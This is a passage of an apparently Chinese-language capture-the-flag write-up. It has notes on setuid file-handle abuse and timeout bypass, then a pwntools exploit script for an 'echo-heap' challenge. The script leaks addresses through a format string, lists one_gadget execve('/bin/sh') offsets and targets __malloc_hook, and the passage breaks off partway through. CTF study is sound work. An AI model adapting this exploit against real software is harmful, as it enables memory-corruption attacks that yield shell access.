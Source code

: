 - `nasm -f elf64 -o test.o test.asm`
- `ld -m elf_x86_64 -s -o payload test.o`



- [相關文章](https://labs.portcullis.co.uk/blog/exploiting-inherited-file-handles-in-setuid-programs/)
- uid 為 0 時，執行 `setuid` 會同時設 real、effective uid
- bypass timeout
  - `(app &)&`: command line double fork
  - `timeout 1000000 sh`: overwrite 舊有的 timeout



### echo-heap

```python
#!/usr/bin/python3

from pwn import *
import sys

if len(sys.argv) > 1:
    r = remote('echo.pwn.quals.r2s.tw', 10101)
else:
    r = process('./echo-heap')

"""
0xe6c7e execve("/bin/sh", r15, r12)
constraints:
  [r15] == NULL || r15 == NULL
  [r12] == NULL || r12 == NULL

0xe6c81 execve("/bin/sh", r15, rdx)
constraints:
  [r15] == NULL || r15 == NULL
  [rdx] == NULL || rdx == NULL

0xe6c84 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL
"""

#### leak
r.send("echo!\nheap!\n")
r.sendline(b"1"*0x70 + b"%s-" + b"%p-"*0x10)
datas = r.recv().split(b'-')[17:]
heap = int(datas[2], 16) - 0x2a0
libc = int(datas[4], 16) - 0x7548
one = libc + 0xe6c81
code = int(datas[5], 16) - 0x10c0
stack = int(datas[9], 16)
__malloc_hook = libc + 0x1ebb70
binsh = libc + 0x1b75aa
_system = libc + 0x55410
info(f"code: {hex(code)}")
info(f"libc: {hex(libc)}")
info(f"stack: {hex(stack)}")
info(f"one: {hex(one)}")
info(f"hook: {hex(__malloc_hook)}")
info(f"heap: {hex(heap)}")

def count(val, off):
    if off > val:
        return 0x100 - off + val
    return val - off
```